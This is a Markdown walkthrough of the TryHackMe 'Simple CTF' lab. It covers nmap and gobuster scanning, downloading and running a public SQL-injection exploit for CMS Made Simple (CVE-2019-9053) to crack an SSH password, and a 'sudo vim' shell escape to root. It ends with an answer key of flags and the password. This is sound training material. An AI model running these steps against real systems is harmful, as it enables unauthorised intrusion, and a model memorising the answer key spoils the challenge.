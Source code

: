 # Simple CTF

![SimpleCTF](./images/SimpleCTF.png)

[Simple CTF](https://tryhackme.com/room/easyctf) is listed as an easy room, and covers a lot of different tools and aspects of security, which makes it a great room to complete for beginners.
An overview of what we’ll be using is listed here:  

* Basic linux commands
* Nmap scan
* Gobuster
* Searchsploit

## Set up environment IP as target IP_MACHINE

```
export IP=10.10.179.1
```  

![IP](./images/IP.png)


## Enumeration and Scanning

* Check the IP from browser 

	![website](./images/website.png)

* Scan open port with nmap

	```
	nmap -sV -sC $IP | tee nmap-scan.txt
	```  

	File scan resulted [here](./files/nmap-scan.txt)  

	![nmap-scan](./images/nmap-scan.png)

* Scan directory with gobuster
	
	* Default directory scan
		
		```
		gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt | tee gobuster-default.txt
		```  

		File scan resulted [here](./files/gobuster-default.txt)  

		![gobuster-default](./images/gobuster-default.png)

	* Sub directory scan
		
		```
		gobuster dir -u $IP/simple -w /usr/share/wordlists/dirb/common.txt | tee gobuster-simple.txt
		```  
		
		File scan resulted [here](./files/gobuster-simple.txt)  

		![gobuster-simple](./images/gobuster-simple.png)

* Try to open website

	* Check the sub directory
		
		![website-simple](./images/website-simple.png)

	* Check website version
	
		![website-version](./images/website-version.png)

	* Check website posted
	
		![website-posted](./images/website-posted.png)


* Find Exploit from DB

	* Search exploit 
		
		```
		searchsploit CMS made simple 2.2.8
		```  

		![exploit-search](./images/exploit-search.png)

	* Download exploit file
		
		```
		searchsploit -m php/webapps/46635.py
		```  

		![exploit-download](./images/exploit-download.png)

	* Check CVE number 
		
		```
		nano 46635.py
		```  

		![cve-number](./images/cve-number.png)


## Gaining Acecss & Exploitation

* Run the exploit file with python2

	```
	python2 46635.py -u http://$IP/simple --crack -w /usr/share/wordlists/rockyou.txt
	```  

	![script-run](./images/script-run.png)
	
	Resulted  

	![exploit-pass](./images/exploit-pass.png)

* Login to target machine

	```
	ssh -p 2222 mitch@$IP
	```

	![ssh-login](./images/ssh-login.png)

* Get the user.txt

	![user-txt](./images/user-txt.png)

* Get root access

	* Check privilege escalation with sudo
	
		```
		sudo -l
		```  

		![sudo-l](./images/sudo-l.png)

	* Run sudo to get root access
	
		```
		sudo vim -c ':!/bin/sh'
		```  

		![home-user](./images/home-user.png)

	* Get `root.txt`
	
		![root-txt](./images/root-txt.png)

## Questions and Answers

* How many services are running under port 1000?

	`2`
	
* What is running on the higher port?

	`ssh`
	
* What's the CVE you're using against the application? 

	`CVE-2019-9053`
	
* To what kind of vulnerability is the application vulnerable?

	`SQLi`

* What's the password?

	`secret`

* Where can you login with the details obtained?

	`ssh`
	
* What's the user flag?

	`G00d j0b, keep up!`
		
* Is there any other user in the home directory? What's its name?

	`sunbath`
	
* What can you leverage to spawn a privileged shell?

	`vim`
	
* What's the root flag?

	`W3ll d0n3. You made it!`
